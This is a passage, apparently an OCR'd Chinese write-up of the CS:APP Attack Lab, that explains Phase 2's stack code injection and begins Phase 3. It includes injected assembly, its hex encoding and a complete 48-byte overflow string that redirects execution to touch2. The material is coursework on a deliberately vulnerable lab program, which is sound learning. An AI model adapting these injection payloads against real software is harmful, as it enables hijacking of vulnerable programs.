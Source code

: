 这一关要求我们在执行完getbuf函数之后进入touch2函数，同时需要把touch2的参数，即%rdi设置为我们的cookie。查看一下touch2函数的地址：
```assembly
83: 000000000040176f    86 FUNC    GLOBAL DEFAULT   13 touch2
```

---

接下来我们需要想办法去把我们的汇编代码注入到被攻击目标中，汇编代码很简单：

```assembly
mov $0x67aa2160, %rdi
push $0x40176f
ret
```

其中第一行是把cookie存入%rdi中，第二行是把touch2的地址压入栈中，最后ret则会跳转到这个地址。

---

为了得到16进制表示，我们可以运用一个小技巧，即用`gcc -c`命令把汇编用assembler转为目标文件之后再使用`objdump -d`，从而得到我们需要的十六进制表示：
```assembly
48 c7 c7 60 21 aa 67    mov    $0x67aa2160,%rdi
68 6f 17 40 00          push   $0x40176f
c3                      ret
```

---

接下来就要解决注入字符串的最终形式，首先我们知道这个字符串应是48个字节长度，其中需要包含这段汇编代码以及跳转的目标地址（即第一条mov指令的地址）。于是我们需要用到栈上的地址来进行跳转，可以使用gdb去获取栈上地址，经过一些计算可以得到我们的注入字符串的十六进制表示：

```
48 c7 c7 60 21 aa 67
68 6f 17 40 00
c3
00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
98 c7 60 55 00 00 00 00
```

成功通过

## Phase 3

这一关卡的任务是要将我们构建的一个字符串去与cookie进行比较，比较的方式由hexmatch函数指出，这里有必要贴上hexmatch函数：

```C
int hexmatch(unsigned val, char *sval) { // val对应cookie，*sval对应我们输入的字符串
  char cbuf[110];
  char *s = cbuf + random() % 100;
  sprintf(s, "%.8x", val);
  return strncmp(sval, s, 9) == 0;
}
```

其中random、sprintf、strncmp函数的作用请自行查阅，整体的逻辑是：将cookie这一字符串转化为ascii码16进制表示的字符串。虽然s字符串在栈中的位置是不确定的，但是在strncmp函数是将sval和s做比较，因此无需担心目标字符串不一样的可能性，我们只需要知道cbuf和s可能会占据栈中的哪些位置，以及touch3和hexmatch函数被push到栈上之后栈的结构层次是什么样的，那么首先来查看一下hexmatch和touch3函数的汇编

---